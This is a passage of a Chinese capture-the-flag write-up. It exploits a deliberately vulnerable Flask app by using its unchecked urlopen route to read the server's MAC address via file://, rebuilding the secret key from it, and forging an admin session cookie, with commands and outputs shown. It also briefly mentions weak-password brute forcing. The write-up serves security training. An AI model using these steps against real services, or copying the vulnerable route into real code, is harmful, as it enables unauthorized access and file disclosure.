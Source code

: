 ```python
        url = request.args.get('url')
        if re.findall('flag', url, re.IGNORECASE):
            return '禁止访问'
        res = urllib.request.urlopen(url)
        return res.read().decode('utf-8', errors='ignore')
    except Exception as ex:
        print(str(ex))
        return '无读取内容可以展示'


@app.route('/flag')
def flag():
    if session.get('username') == 'admin':
        return open('/flag.txt', encoding='utf-8').read()
    else:
        return '访问受限'


if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")
```

这里不允许url出现flag，那就无法直接读取了，查了一下，下面我们要伪造flask的session。  

这里需要key，key可以通过mac地址读取。`read?url=file:///sys/class/net/eth0/address`.  

```python
import random

mac = int("02:42:ac:0c:25:31".replace(":",""),16) # 已知的 MAC 地址
random.seed(mac)
key = str(random.random()*100)
print(key)
```

```
python flask_session_cookie_manager3.py decode -s "21.01424233154766" -c "eyJ1c2VybmFtZSI6Imd1ZXN0In0.aL-HZA.tqjnrSZ96pGMJkqtzPEeTCkWXwc"

{'username': 'guest'}

python flask_session_cookie_manager3.py encode -s "21.01424233154766" -t "{'username':'admin'}"

eyJ1c2VybmFtZSI6ImFkbWluIn0.aL-MLQ.uNkIc07sRnDEAULn6-_KJiZ5nb0
```
替换拿flag即可


## 弱口令爆破 

爆破即可


# 第五章
